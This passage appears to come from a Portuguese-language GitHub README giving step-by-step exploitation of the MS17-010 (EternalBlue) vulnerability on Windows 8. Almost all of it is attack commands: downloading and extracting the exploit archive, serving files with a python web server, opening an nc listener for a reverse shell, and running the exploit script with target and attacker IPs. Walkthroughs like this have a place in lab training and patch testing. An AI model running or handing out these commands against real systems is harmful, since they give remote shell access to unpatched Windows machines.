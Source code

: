 Realize o download do exploit, descompacte o arquivo ms17-010.tar.gz.
<br>

https://github.com/caique-garbim/MS17-010_EternalBlue/raw/main/ms17-010.tar.gz
```
tar xf ms17-010.tar.gz
```
```
cd ms17-010/win8/
```

### Exploração
Inicie um web server dentro de *win8/* **(em outro terminal)**:
```
python3 -m http.server 80
```
Prepare o Kali para receber a conexão reversa **(em outro terminal)**:
```
rlwrap nc -vnlp 8081
```
Execute o **exploit_win8.py** com python2 informando nos parâmetros o IP do Windows alvo, IP do Kali e a porta que receberá a shell reversa:
```
python2 exploit_win8.py 192.168.10.114 192.168.100.3 8081
```

![win8poc](https://user-images.githubusercontent.com/76706456/197260759-83dbc652-7974-4f36-98b6-2df9737bc3e5.gif)
